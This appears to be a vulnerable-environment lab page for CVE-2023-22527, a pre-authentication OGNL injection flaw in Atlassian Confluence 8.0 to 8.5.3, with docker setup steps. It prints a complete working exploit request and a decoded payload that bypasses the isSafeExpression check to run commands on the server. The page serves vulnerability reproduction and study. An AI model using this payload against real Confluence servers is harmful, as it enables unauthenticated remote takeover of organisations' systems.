

Atlassian Confluence Pre-Auth Remote Code Execution via OGNL Injection (CVE-2023-22527)¶
Confluence is a web-based corporate wiki developed by Australian software company Atlassian.
A OGNL injection vulnerability on versions (8.0 to 8.5.3) of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance.
References:
- https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html
- https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/
Vulnerable Environment¶
Execute following command to start a Confluence Server 8.5.3:
docker compose up -d
After the environment starts, visit http://your-ip:8090 and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.
Following this guide to complete the installation.
On the database configuration page, fill in the form with database address db, database name confluence, username postgres, password postgres.

Exploit¶
Simplely send following request to execute arbitrary commands inside an craft OGNL expression and get the response:
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285
label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))

After the version 7.18.0, Confluence introduced a isSafeExpression function to protect OGNL injection. Security researcher Alvaro Muñoz find a way to bypass it through #request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object), the full decoded payloads are here:
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'